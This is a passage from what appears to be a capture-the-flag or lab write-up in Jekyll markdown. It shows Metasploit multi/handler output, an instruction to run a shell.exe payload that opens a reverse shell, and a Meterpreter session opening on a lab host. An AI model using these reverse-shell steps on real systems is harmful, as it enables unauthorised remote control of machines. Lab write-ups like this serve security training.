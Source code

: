 [*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <target-ip>:443 {% endraw %}{% endcapture %} {%include code.html code=code %}

Copy `shell.exe` payload file and execute, which will activate the `reverse shell`

The payload would have activated a session in `msfconsole` teminal. Bring the session to foreground for interaction and gain `meterpreter` shell.
{% capture code %}{% raw %}msf5 exploit(multi/handler) > [*] Sending stage (201283 bytes) to 10.10.91.162
[*] Meterpreter session 1 opened (<target-ip>:443 -> 10.10.91.162:50140) at 2021-04-13 17:06:53 +0100

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter >{% endraw %}{% endcapture %} {%include code.html code=code %}

